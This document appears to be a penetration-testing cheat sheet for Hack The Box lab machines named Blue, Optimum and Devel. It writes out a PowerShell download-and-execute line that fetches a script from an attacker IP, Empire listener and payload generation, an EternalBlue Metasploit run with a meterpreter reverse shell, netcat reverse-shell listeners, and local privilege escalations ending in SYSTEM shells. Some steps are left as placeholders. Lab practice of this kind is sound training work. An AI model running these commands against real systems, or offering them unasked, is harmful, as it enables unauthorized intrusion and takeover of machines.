 # Tools and tricks

## Kali on VirtualBox
- `apt-get upgrade`
- `apt-get dist-upgrade`
- `apt-get install -y virtualbox-guest-x11`
- install guest additions 
- reboot

## Firefox ESR + FoxyProxy + Burps
Install version 4.6.5 that can run on Firefox ESR v52.5.0 (32-bit) using it with Burp v1.7.27

## Get files
Get file with Powershell:
```
C:\Windows\system32>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.22:80/file.ps1')"
```

## Serve files
With Python:
```
# python -m SimpleHTTPServer 80
```

## Empire
[Empire github](https://github.com/EmpireProject/Empire/tree/dev)
### Setup
```
git clone https://github.com/EmpireProject/Empire -b dev # Clone the dev branch
cd Empire/setup
./install/sh
./empire.sh
```
### Usage
```
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://10.10.14.22:443
(Empire: listeners/http) > set Port 443
(Empire: listeners/http) > execute
[*] Starting listener 'http'
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > launcher powershell http # this generates the payload
```
Copy the payload output and paste it into a file that you'll serve with `SimpleHTTPServer` and get from the box using `Net.WebClient.downloadString` for example.

# Boxes
## Blue
### Recon
```
# nmap -p 445 --script "vuln and safe" -Pn -n 10.10.10.40 -oA blue.vuln_and_safe.nmap
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
```
### Exploit
```
# msfconsole
msf > search ms17-010                                                                              
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/smb/ms17_010_eternalblue) > set lhost tun0
msf exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.10.40
msf exploit(windows/smb/ms17_010_eternalblue) > exploit -j
msf > sessions -i 1

meterpreter > shell
C:\Windows\system32>whoami
nt authority\system
```

## Optimum

### Tools
- [nishang `Invoke-PowerShellTcp.ps1`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
- [rasta-mouse `Sherlock.ps1`](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)
- [Empire `Invoke-MS16032.ps1`](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1)

### Procedure
- `nmap -sC -sV -oA devel.nmap 10.10.10.5`
    - Discovered port 80
- Browse to http://10.10.10.8
    - Found <SOFTWARE> <VERSION>
        - Vulnerable to <XYZ>
- Set Burp in Intercept mode on 127.0.0.1:8080
- Set FoxyProxy to redirect to Burp
- Search for `%00` in the searchbox
- In Burp, send the GET to Repeater (`CTRL + R + R`) and modify it as: `QUERY`

- Start `python -m SimpleHTTPServer`
- Start netcat to capture the reverse shell `nc -lnvp 1337`
- Execute the GET query in Burp
    - Look for a GET request in SimpleHTTPServer and 
    - You should get a Powershell running as normal user

###
- User Sherlock to identify unpatched vulnerabilities
    - Discovered MS16032   

### Escalate
- Edit `Invoke-MS16032.ps1`:
`SHOWFILE`
- Start netcat to capture the Empire reverse shell `nc -lnvp 1338`
- From the open Powershell session, get the Empire script
    - Obtained privileged shell



## Devel
- nmap
    - Discovered anonymous FTP
        - `ftp 10.10.10.5` user: `anonymous` passowrd: anything.
- msfvenom to build a meterpreter
- upload it via ftp
- start msfconsole to listen
- visit the page to trigger 
```
msf exploit(multi/handler) > search suggest
msf exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > run  
```
## Get a shell
```
msf exploit(windows/local/ms10_015_kitrap0d) > use exploit/multi/handler
msf exploit(multi/handler) > run
```
- Browse the page to spawn the shell
```
meterpreter > background
msf exploit(multi/handler) > sessions
```
## Get an elevated shell
```
msf exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(windows/local/ms10_015_kitrap0d) > show options
msf exploit(windows/local/ms10_015_kitrap0d) > set session 4
msf exploit(windows/local/ms10_015_kitrap0d) > run
meterpreter > shell
c:\windows\system32\inetsrv>whoami
```
